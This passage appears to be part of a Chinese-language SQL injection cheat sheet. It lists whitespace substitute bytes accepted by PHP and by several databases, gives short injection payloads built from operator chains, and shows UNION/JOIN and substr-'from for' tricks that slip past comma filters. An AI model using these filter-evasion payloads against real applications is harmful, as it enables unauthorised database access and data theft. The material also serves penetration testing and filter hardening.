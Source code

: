 空格还可以使用如下替代：

> 在php中 \s 会匹配0x09,0x0a,0x0b,0x0c,0x0d,0x20

```
09：Horizontal Tab
0A：New Line
0B：Vertical Tab
0C：New Page
0D：Carriage Return
A0：Non-breaking Space
20：Space
a0：空格
2B：+
2D：-
7E：~
21：!
40：@
```

在特定数据库中可以使用以下替代：

```
SQLite3：0A 0D 0C 09 20
MySQL5 09：0A 0B 0C 0D A0 20
PosgresSQL：0A 0D 0C 09 20
Oracle 11g：00 0A 0D 0C 09 20
MSSQL：01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
```

示例：

```
SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))
' or --+2=- -!!!'2
```

### 过滤逗号

* select 1,2,3

使用语法绕过：

```
SQL> UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c);
实际上也就相当于：
SQL> UNION SELECT 1,2,3;
```

* substr/mid

绕过方法: `from x for y`

```
substr('password', 5, 1)
=substr('password' from 5 for 1)

mid('password', 5, 1)
=mid('password' from 5 for 1)
```
